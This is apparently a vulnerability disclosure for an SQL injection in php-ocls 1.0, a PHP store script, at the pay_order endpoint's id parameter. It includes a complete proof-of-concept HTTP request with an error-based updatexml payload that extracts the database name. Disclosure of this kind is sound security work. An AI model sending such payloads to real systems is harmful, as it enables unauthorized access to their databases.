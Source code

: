 # php-ocls<=v1.0 Authenticated unauthorized SQL injection

## Description

    php-ocls<=v1.0 /php-ocls/classes/Master.php interface has unauthorized SQL injection vulnerability

## source code

    php-ocls<=1.0
    Software Link: https://www.sourcecodester.com/php/16397/online-computer-and-laptop-store-using-php-and-mysql-source-code-free-download.html

## Author

    yangfan2@webray.com.cn inc  

## Proof of Concept

1. /php-ocls/classes/Master.php?f=pay_order SQL injection exists for parameter id

   ```
   POST /php-ocls/classes/Master.php?f=pay_order HTTP/1.1
   Host: 172.20.10.166:8080
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   x-forwarded-for: 127.0.0.1
   x-originating-ip: 127.0.0.1
   x-remote-ip: 127.0.0.1
   x-remote-addr: 127.0.0.1
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 55
   
   id=1'and updatexml(1,concat(0x7e,(database()),0x7e),1)#
   ```
   
   | ![image-20240816172147822](E:\Desktop\webRay\cve挖掘\cve提交\php-ocls-Arbitrary Sqli.assets\image-20240816172147822.png) |
   | ------------------------------------------------------------ |
   
   
